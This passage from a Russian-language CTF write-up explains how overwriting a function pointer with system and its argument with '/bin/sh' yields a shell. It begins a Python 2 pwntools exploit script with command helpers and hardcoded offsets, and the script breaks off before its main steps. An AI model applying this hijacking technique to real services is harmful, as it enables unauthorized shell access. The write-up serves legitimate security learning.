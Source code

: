 Вспомним теперь, что в `cmd_quit` вызывается `user->dealloc_func(user->uid)`. То есть, если в `user->dealloc_func` положить `system`, а в `user->uid` указатель на контролируемую нами строчку (например, `"/bin/sh"`), то мы отспавним шелл.

## Exploit

Это не конечный вариант, который мы использовали на самом контесте, но зато можете потестить его локально (сорян за говнокод бтв)

```python
#!/usr/bin/python2

import sys

from pwn import *


def cmd_auth(pc, msg_len, uid):
    pc.send(msg_len)
    pc.send(uid)


def cmd_head(pc, idx):
    pc.send(idx)


def cmd_put(pc, idx_len, data_len, idx, data):
    pc.send(idx_len)
    pc.send(data_len)
    pc.send(idx)
    pc.send(data)


def cmd_get(pc, idx):
    pc.send(idx)


def cmd_ping(pc, data):
    pc.send(data)


def cmd_quit(pc):
    pass


CMD = {
    cmd_auth:   0,
    cmd_head:   1,
    cmd_put:    2,
    cmd_get:    3,
    cmd_ping:   4,
    cmd_quit:   5
}


def cmd_func(pc, cmd, buf_size, *args):
    pc.send(p64(CMD[cmd]))
    pc.send(p64(buf_size))
    cmd(pc, *args)


def main(pc):
    binsh = 0x181519
    system = 0x44c50
```